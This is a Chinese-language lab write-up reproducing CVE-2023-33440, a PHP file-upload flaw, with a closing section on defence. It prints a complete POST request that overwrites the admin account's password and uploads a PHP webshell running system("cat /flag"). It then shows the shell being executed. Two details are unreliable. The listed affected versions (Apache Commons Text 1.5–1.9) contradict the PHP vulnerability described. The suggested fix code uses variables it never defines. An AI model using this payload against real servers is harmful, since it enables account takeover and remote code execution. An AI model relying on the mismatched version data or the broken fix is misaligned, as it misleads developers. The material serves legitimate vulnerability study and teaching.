# CVE-2023-33440复现及防御-先知社区

> **来源**: https://xz.aliyun.com/news/19275  
> **文章ID**: 19275

---

## 1-信息收集

* 平台名称：春秋云镜
* 影响版本：Apache Commons Text 库 1.5 至 1.9 之间的版本
* 下载地址：[https://yunjing.ichunqiu.com/cve/detail/1123?type=1&amp;pay=2](https://yunjing.ichunqiu.com/cve/detail/1123?type=1&pay=2)

## 2-漏洞复现

进入主页面，没有找到可以查看或者输入的点



通过扫描工具获取到该网页的其他目录，发现能打开的只有login.php,manage\_user.php



login.php



manage\_user.php



也可以直接利用手里的源码，可以对应查看以上php文件内容进行分析，我们想要实现利用文件上传漏洞进行攻击，首先可以从相关实现功能入手

这里选择从login.php文件入手，用户在 login.php输入的参数会通过 AJAX 发送到`ajax.php?action=login`处理



manage\_user.php也是一样的方式，继续查看ajax.php内容



**Ajax.php:**

前端页面通过 Ajax 发送用户 ID 到 `ajax.php`，`ajax.php` 接收 ID 后从数据库查询该用户的信息，再将信息以 JSON 格式返回，前端拿到数据后动态显示在页面上，整个过程无需刷新页面，提升用户体验。

通过查找ajax.php的代码，最有可能进行文件上传攻击的是update\_user()函数，那么需要知道update\_user()是如何实现的



在 admin\_class.php 中找到update\_user()的具体功能



这其中就发现了存在**严重漏洞风险**的地方：

```
if(isset($_FILES['img']) && $_FILES['img']['tmp_name'] != ''){
    $fname = strtotime(date('y-m-d H:i')).'_'.$_FILES['img']['name'];
    $move = move_uploaded_file($_FILES['img']['tmp_name'],'assets/uploads/'. $fname);
    $data .= ", avatar = '$fname' ";
}
```

**​**

**漏洞风险成因：**

1. 仅判断 “是否有上传文件”，未验证文件类型（如是否为图片）、文件内容（是否含恶意脚本）、文件大小。
2. 直接使用用户提供的文件名 `$_FILES['img']['name']` 拼接保存（仅加了时间戳前缀），攻击者可伪造文件名绕过简单检查。
3. 直接将文件保存到 `assets/uploads/` 目录，未限制该目录的脚本执行权限，恶意文件可被直接运行。

​

## 3-漏洞利用

综合上面的漏洞复现过程，我们就可以构造出**攻击思路**：

通过在manage\_user.php请求更新用户信息，尝试上传木马文件webshell.php。ajax.php 会传递参数调用update\_user函数，因为update\_user()没有进行设置合理的保护策略，使得我们可以直接修改任意用户的信息，也能够利用该功能进行上传木马文件，达到攻击效果。

* 漏洞产生点：ajax.php
* 传递的参数：action=update\_user
* 漏洞类型：文件上传

​

在manage\_user.php发送请求，尝试直接上传我们事先写好的木马文件，发现没有提交的选项，选择使用bp进行POST上传



​

我们可以直接构造需要的请求和内容

​

传参更新用户信息的请求，尝试修改admin的账号和密码，在img选项中写入木马webshell.php

```
ajax.php?action=update_user
```

**poc如下**

```
POST /ajax.php?action=update_user HTTP/2
Host: eci-2zeaiu7jgzkj9rxzu147.cloudeci1.ichunqiu.com:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Referer: https://eci-2zeaiu7jgzkj9rxzu147.cloudeci1.ichunqiu.com:80/index.php?page=report
Content-Length: 753
Content-Type: multipart/form-data; boundary=---------------------------166782539326470

-----------------------------166782539326470
Content-Disposition: form-data; name="id"

1
-----------------------------166782539326470
Content-Disposition: form-data; name="firstname"

admin
-----------------------------166782539326470
Content-Disposition: form-data; name="lastname"

n
-----------------------------166782539326470
Content-Disposition: form-data; name="email"

admin@admin.com
-----------------------------166782539326470
Content-Disposition: form-data; name="password"

root
-----------------------------166782539326470
Content-Disposition: form-data; name="img"; filename="webshell.php"
Content-Type: application/octet-stream

<?php system("cat /flag");?>
-----------------------------166782539326470--
```

​

将webshell.php上传到服务器中



成功上传并获取到木马文件保存的路径和名称1761460920\_webshell.php，加上之前获取的保存目录`assets/uploads/`



通过访问1761460920\_webshell.php查看flag

```
https://eci-2zeaiu7jgzkj9rxzu147.cloudeci1.ichunqiu.com:80/assets/uploads/1761460920_webshell.php
```



## 4-漏洞防御

1. **限制文件权限**：将上传文件的权限设置为最低，防止执行任意代码。
2. **使用安全的文件名**：对上传的文件名进行处理，防止文件名注入攻击。
3. **定期更新系统**：及时更新系统和应用程序，修补已知漏洞。
4. **验证文件类型**：在服务器端严格验证上传文件的类型，拒绝不合法的文件类型。校验文件后缀（`jpg`等）、MIME 类型（`image/jpeg`等）、内容（`getimagesize` 确认是图片），三重防护杜绝恶意文件。用 `uniqid()` 生成随机文件名，避免用户控制文件名导致的路径遍历（如 `../` 跳出目录）或脚本执行（如 `.php` 后缀）。

```
if (isset($_FILES['img']) && $_FILES['img']['error'] === UPLOAD_ERR_OK) {
    // 1. 验证文件类型（后缀+MIME）
    $allowedExts = ['jpg', 'jpeg', 'png', 'gif'];
    $ext = strtolower(pathinfo($upload['name'], PATHINFO_EXTENSION));
    $mime = mime_content_type($upload['tmp_name']);
    if (!in_array($ext, $allowedExts) || !in_array($mime, $allowedMimes)) {
        return 4; // 非法类型
    }
    
    // 2. 验证文件内容（是否为真实图片）
    $imageInfo = getimagesize($upload['tmp_name']);
    if (!$imageInfo) {
        return 6; // 非图片文件
    }
    
    // 3. 限制大小（2MB）
    if ($upload['size'] > 2 * 1024 * 1024) {
        return 5; // 文件过大
    }
    
    // 4. 随机命名（防路径遍历和伪装）
    $fname = uniqid() . '.' . $ext;
    $uploadPath = 'assets/uploads/' . $fname;
}
```
